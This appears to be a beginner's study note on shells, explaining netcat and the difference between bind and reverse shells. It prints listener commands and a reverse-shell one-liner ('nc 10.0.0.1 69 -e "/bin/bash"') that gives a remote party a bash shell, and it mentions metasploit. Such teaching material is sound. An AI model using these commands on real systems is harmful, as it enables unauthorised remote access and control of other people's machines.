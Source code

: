 ```yaml
---
tags:
  - shell
  - RevShell
  - netcat
  - nc
---
```

# Shells and Tools

***The shell is the piece of software that translates the processes into the system by just a simple command system. The shells are like: `PowerShell` and `Bash`***

## Tools can be used to make shells

The Shells is a great utility on the system, but if a hacker owned one on your system you would be in a great danger.

**Owning** a shell on a machine to remotely execute code with high privileges might be if it isn't the highest thing a hacker could make on a machine, it can be done by tools opens the connection to a command executing shell on the machine.


### `Netcat`

`Netcat` is the classic one to create shells. The shells can be created by executing a command on both sides to establish the connection.

Let's say i want to connect to a shell on a machine the IP of it is `10.0.0.1`, first i must make it opens a port to send my request and even make the machine wait my request on, which can be done by executing this command on the other side machine -which is called a listener- :
```bash
nc -lvnp 69
```

Now I must make a request from my side to connect to this machine on the waiting port:
```bash
nc 10.0.0.1 69
```
and it's done

### Other tools

There are other tools like `metasploit` and `msvenom` which you can make connection with but with different methods.

___
# Shell Types

***There are mainly two types of shells:***

## Bind Shell

**The bind shell** is to put a listener on the machine, opening a port for you to make the request from your side and connect.

Putting the listener:
```bash
nc -lvnp 69
```

Connecting the open port:
```bash
nc 10.0.0.1 69
```
and it's done

## Reverse Shell

The reverse shell is totally the opposite of the bind shell, your side would be the listener side and the other side would be one who is making the request to give you the connection!!

opening a listener on your side: 
```bash
nc -lvnp 69
```

Now make the other side give you the connection:
```bash
nc 10.0.0.1 69 -e "/bin/bash"
```

and it's done

##### There also the interactive and non-interactive shells and the difference between them is that the interactive can take user inputs the non is not, and most of the bind and reverse shells are non-interactive.

---
